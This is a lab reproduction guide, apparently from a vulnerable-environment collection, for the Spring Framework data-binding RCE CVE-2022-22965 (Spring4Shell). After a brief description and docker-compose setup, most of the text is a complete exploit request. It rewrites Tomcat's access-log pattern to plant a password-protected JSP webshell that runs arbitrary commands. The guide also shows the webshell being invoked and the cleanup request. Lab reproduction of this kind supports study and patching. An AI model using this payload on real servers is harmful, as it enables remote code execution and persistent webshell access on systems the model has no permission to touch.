


# Spring Framework RCE via Data Binding on JDK 9+ (CVE-2022-22965)

A Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. The specific exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. However, the nature of the vulnerability is more general, and there may be other ways to exploit it.

References:

- <https://tanzu.vmware.com/security/cve-2022-22965>
- <https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/>

## Vulnerability Environment

Execute the following command to start a server that uses Spring WebMVC 5.3.17:

```
docker-compose up -d
```

After server is started, browse the `http://your-ip:8080/?name=Bob&age=25` to see an example page.

## Vulnerability Reproduce

Send the following request to change the logging configuration in Apache Tomcat and write the log as a JSP file:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```



Then, you can use the JSP webshell to execute arbitrary commands successfully:

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```



Noted that you should clear the `class.module.classLoader.resources.context.parent.pipeline.first.pattern` if you don't want the JSP webshell to be large, because every request logging will be written into that file. Send following request to clear the attribute:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```
